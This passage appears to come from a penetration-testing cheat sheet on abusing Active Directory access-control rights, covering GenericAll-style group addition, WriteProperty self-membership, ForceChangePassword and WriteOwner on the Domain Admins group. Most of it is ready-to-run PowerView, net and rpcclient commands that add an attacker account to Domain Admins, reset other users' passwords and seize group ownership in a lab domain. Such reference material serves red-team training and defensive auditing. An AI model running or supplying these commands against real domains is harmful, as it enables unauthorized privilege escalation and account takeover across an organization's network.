 ```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **WriteProperty (Self-Membership)**

A similar privilege, this allows attackers to directly add themselves to groups by modifying group properties if they have the `WriteProperty` right on those groups. The confirmation and execution of this privilege are performed with:

```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```

## **ForceChangePassword**

Holding the `ExtendedRight` on a user for `User-Force-Change-Password` allows password resets without knowing the current password. Verification of this right and its exploitation can be done through PowerShell or alternative command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments. The commands range from simple PowerShell invocations to using `rpcclient` on Linux, demonstrating the versatility of attack vectors.

```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

## **WriteOwner on Group**

If an attacker finds that they have `WriteOwner` rights over a group, they can change the ownership of the group to themselves. This is particularly impactful when the group in question is `Domain Admins`, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via `Get-ObjectAcl` and then using `Set-DomainObjectOwner` to modify the owner, either by SID or name.

```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```
